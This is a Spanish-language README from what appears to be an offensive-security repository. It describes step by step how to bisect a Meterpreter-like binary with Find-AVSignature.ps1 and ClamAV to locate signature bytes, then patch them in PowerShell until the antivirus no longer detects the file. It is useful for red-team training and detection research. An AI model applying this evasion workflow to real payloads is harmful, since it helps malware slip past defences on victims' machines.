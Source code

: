 Uno de los métodos de detección de los AV se basan en las firmas de los ficheros; AV Signature Detection.
Este método de detección se basa en que existe un 'byte string' asociado a actividad maliciosa y si es detectado dentro de un fichero este es detectado como malicioso.

Una de las solucciónes que se aporta en este repositorio, consiste en localizar y cambiar ese bytestring con la finalidad de evitar la detección por parte del engine del antivirus:

- Intentar hacernos con una versión del antivirus que corre en la máquina objetivo.

- Realizar una partición del binario con *Find-AVSignature.ps1* module, el cual puede ser encontrado en este mismo repositorio con el siguiente comando.

    ```
    C:\Users\Offsec>powershell -ep bypass
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

    PS C:\Users\Offsec> Import-Module .\Find-AVSignature.ps1

    PS C:\Tools> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
    ```

- El comando anterior pasa los siguientes parámetros al Find-AVSignature:
    
    -> **StartByte**; El byte a comenzar el split.
    -> **EndByte**; El byte a finalizar el split.
    -> **Interval**; La cantidad de bytes que contendrá cada partición.
    -> **Path**; El binario a partir.
    -> **OutPath**; El directorio sobre el que mandar los ficheros que contendrán cada partición.
    -> **Verbose**; Exponer información por la terminal.
    -> **Force**; Ignorar errores.

- De esta forma, se generan un conjunto de ficheros en C:\Tools\avtest1 y se pasa ese directorio para ser escaneado por el antivirus de turno:

    ```
    PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest1
    LibClamAV Warning: **************************************************
    LibClamAV Warning: ***  The virus database is older than 7 days!  ***
    LibClamAV Warning: ***   Please update it as soon as possible.    ***
    LibClamAV Warning: **************************************************
    C:\Tools\avtest1\met_0.bin: Empty file
    C:\Tools\avtest1\met_10000.bin: OK
    C:\Tools\avtest1\met_20000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_30000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_40000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_50000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_60000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_70000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_73801.bin: Win.Trojan.Swrort-5710536-0 FOUND
    ```

- Ahora, se entiende que la detección comienza en el fichero 20000.bin, es decir, en algún byte de entre los 10000 y los 20000 bytes, así, se repite la partición anterior acotando a ese intervalo el split:

    ```
    PS C:\Tools> Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
    ```

    Observemos que hemos reducido en una unidad de medida el tamaño del intervalo de 10000 a 1000. 

- Así, siguiendo con estas iteraciones y acotando sucesivamente los intervalos de detección llegaremos a un punto en el que detectemos exactamente cuál es el byte que provoca el error:

    ```
    PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest5
    C:\Tools\avtest5\met_18860.bin: OK
    C:\Tools\avtest5\met_18861.bin: OK
    C:\Tools\avtest5\met_18862.bin: OK
    C:\Tools\avtest5\met_18863.bin: OK
    C:\Tools\avtest5\met_18864.bin: OK
    C:\Tools\avtest5\met_18865.bin: OK
    C:\Tools\avtest5\met_18866.bin: OK
    C:\Tools\avtest5\met_18867.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest5\met_18868.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest5\met_18869.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest5\met_18870.bin: Win.Trojan.Swrort-5710536-0 FOUND
    ```

    En este caso se ve que el bytestring que provoca el signature comienza por el byte 18867.

- Ahora, alteramos este byte (o su precedente o su consecuente) con el siguiente código en powershell.

    ```powershell
    $bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
    $bytes[18867] = 0
    [System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
    ```

- Y repetimos el último paso del proceso anterior con el binario met_mod.exe:

    ```powershell
    PS C:\Program Files\ClamAV> Find-AVSignature -StartByte 18860 -EndByte 18870 -Interval 1 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest4 -Verbose -Force
    ```

    Y lo analizmos con el antivirus de turno, **si encontramos que no se ha soluccionado la detección, probamos a cambiar el byte precedente o el consecuente**.

- Este algoritmo de supressión de firmas se repite otra vez hasta que todas las particiones que conformen el binario salgan limpias, pueden aparecer uno o varios bytes strings que provoquen una alerta. Cada byte se incorpora al binario a través de powershell, por ejemplo;

    ```powershell
    $bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
    $bytes[18867] = 0
    $bytes[18987] = 0
    ...
    [System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
    ```

- Cuando todas las entradas de met_mod.exe salgan limpias, entonces se modifica el último byte del binario con el hexadecimal 0xFF, en este caso:

     ```powershell
    $bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
    $bytes[18867] = 0
    $bytes[18987] = 0
    $bytes[73801] = 0xFF
    [System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
    ```

- Y probamos el binario completo modificado en el antivirus.

    ```
    PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest14
    C:\Tools\avtest14\met_mod.exe: OK
    ```

**Es importante añadir que aunque este método bypasse correctamente la detección mediante firmas del AV, puede dejar inutilizado el binario y en ese caso, se debe de probar con otro método de bypass de detección**